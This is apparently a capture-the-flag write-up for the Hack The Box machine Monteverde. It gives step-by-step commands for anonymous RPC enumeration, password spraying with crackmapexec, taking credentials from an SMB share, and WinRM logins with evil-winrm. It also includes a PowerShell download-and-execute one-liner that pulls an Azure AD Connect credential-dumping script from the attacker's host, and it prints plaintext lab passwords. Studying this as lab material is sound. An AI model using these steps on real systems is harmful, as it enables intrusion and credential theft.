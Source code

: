 ```yaml
---
description: https://app.hackthebox.com/machines/Monteverde
---
```


# 🐭 Monteverde

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's start by a quick nmap:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (5).png" alt=""><figcaption><p>TCP DNS (53) along with Kerberos (TCP 88) and LDAP (TCP 389) suggests this might be a domain controller</p></figcaption></figure>

Could not connect via SMB shares

So tried RPC on port 445:

```
rpcclient -U "" -N 10.129.69.81
querydispinfo
```

1. `rpcclient`: This is a command-line tool used to execute client-side operations on a remote system that supports RPC. It allows users to interact with services that utilize RPC for communication.
2. `-U ""`: This parameter specifies the username to use for authentication. In this case, an empty string `""` is used, which might indicate that the command is trying to connect anonymously or using a null session.
3. `-N`: This flag is used to indicate that no password should be prompted for, which typically implies anonymous authentication.
4. `10.129.69.81`: This is the IP address of the remote system to which the command is attempting to connect.
5. `querydispinfo`: This appears to be a command or operation being requested from the remote system. It could be querying display information, such as details about the available shared resources or services.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we found the name of some of the users and their account name

a good way to go would be to check if the users use their name as passwords for their account

So let's try to put all the usernames in a word list and spray using crackmapexec

```
crackmapexec smb 10.129.69.81 -u users.txt -p users.txt --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>MEGABANK.LOCAL\SABatchJobs:SABatchJobs</p></figcaption></figure>

cool we got a match&#x20;

Now let's use `smbmap` to tell me what shares there are and what I have access to in a cleaned up manner:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs
```

* `smbmap`: This is a command-line tool used to enumerate and interact with shares on SMB servers. It allows users to discover accessible shares, permissions, and other information available on SMB-enabled systems.
* `-H 10.129.69.81`: This parameter specifies the target host or IP address (`10.129.69.81`) of the SMB server that the `smbmap` tool will interact with. This is the remote system you want to analyze.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after some enumeration we see some interesting files:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs -R 'users$'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To grab it using smbclient ->

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

1. `smbclient`: This is the command-line tool used to access files and services on SMB/CIFS servers.
2. `-U SABatchJobs`: This parameter specifies the username (`SABatchJobs`) to be used for authentication when connecting to the SMB/CIFS server.
3. `//10.10.10.172/users$`: This is the Uniform Naming Convention (UNC) path to the shared resource on the server (`10.10.10.172`). The `users$` represents a hidden share named `users`. The double slashes `//` indicate the beginning of a UNC path.
4. `SABatchJobs`: This is the password corresponding to the username provided with the `-U` flag. It's used for authentication purposes.
5. `-c 'get mhope/azure.xml azure.xml'`: This part of the command specifies a subcommand to be executed after connecting to the SMB/CIFS server. In this case, it's executing the `get` command to retrieve a file named `azure.xml` from the `mhope` directory on the server's `users$` share. The file will be downloaded to the local system and saved as `azure.xml`.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or another way of doing it:

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

in the XML file, there are credentials:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

since the credentials are in mhope directory, it's a high prob it's his credentials ->

You can check that with `crackmapexec`

```
crackmapexec winrm 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

1. `crackmapexec`: This is a penetration testing tool that is used for assessing the security of networks by identifying and exploiting vulnerabilities. It's specifically designed for enumerating and exploiting Windows hosts on a network.
2. `winrm`: This indicates that the operation being performed by `crackmapexec` pertains to WinRM, which is a management protocol used for remote management of Windows systems over HTTP(S). WinRM allows for remote execution of PowerShell commands and scripts, as well as other management tasks.
3. `10.129.69.81`: This is the IP address of the target system where the WinRM service is running. `crackmapexec` will attempt to connect to this system to perform enumeration or exploitation.
4. `-u mhope`: This flag specifies the username (`mhope`) to be used for authentication when connecting to the WinRM service on the target system.
5. `-p '4n0therD4y@n0th3r$'`: This flag specifies the password (`4n0therD4y@n0th3r$`) corresponding to the username provided with the `-u` flag. It's used for authentication purposes.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also get the indication that winrm works for this account so let's go:

```
evil-winrm -i 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>59f4dfa90d416cb495bd38d04f361549</p></figcaption></figure>

In the box description, we see that they talk about Azure Active Directory and there was a share "azure uploads"

When used without additional parameters, "net user mhope" displays detailed information about the specified user account, such as the account's full name, description, whether the account is active or disabled, when the account was created, and when the account's password was last set

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that mhope is part of the azure admins group

after quick enumeration we also see  that there are a lot of azure related files:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (4).png" alt=""><figcaption></figcaption></figure>

nice blog about azure red teaming:

{% embed url="https://blog.xpnsec.com/azuread-connect-for-redteam/" %}

We see this :

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c" %}

on my local machine i'll put this in an "azurePentest.ps1" file:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go fetch it like that:

```
wget http://10.10.14.94:6969/azurePentest.ps1
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

or another way is to download it and executing it right away:&#x20;

```
iex(new-object net.webclient).downloadstring('http://10.10.14.94:6969/shell1.ps1')
```

1. `iex`: This is the alias for the `Invoke-Expression` cmdlet in PowerShell. It's used to execute commands or scripts represented as strings.
2. `(new-object net.webclient)`: This creates a new instance of the `System.Net.WebClient` class in .NET. This class provides methods for downloading data from the internet.
3. `.downloadstring('http://10.10.14.94:6969/shell1.ps1')`: This calls the `DownloadString` method of the `WebClient` object created in the previous step. It downloads the contents of the specified URL (`http://10.10.14.94:6969/shell1.ps1`) as a string.

Combining these components, the entire command can be interpreted as follows:

1. Create a new instance of the `WebClient` class.
2. Use this `WebClient` object to download the contents of the PowerShell script (`shell1.ps1`) from the specified URL (`http://10.10.14.94:6969/shell1.ps1`).
3. Execute the downloaded script using the `Invoke-Expression` cmdlet (`iex`)

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

Script kiddie type stuff, but we get some credentials. Let's hop on WinRM:

{% content-ref url="../../interacting-with-protocols-and-tools/tools/winrm.md" %}
[winrm.md](../../interacting-with-protocols-and-tools/tools/winrm.md)
{% endcontent-ref %}

```
evil-winrm -i 10.129.69.81 -u administrator -p 'd0m@in4dminyeah!'
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
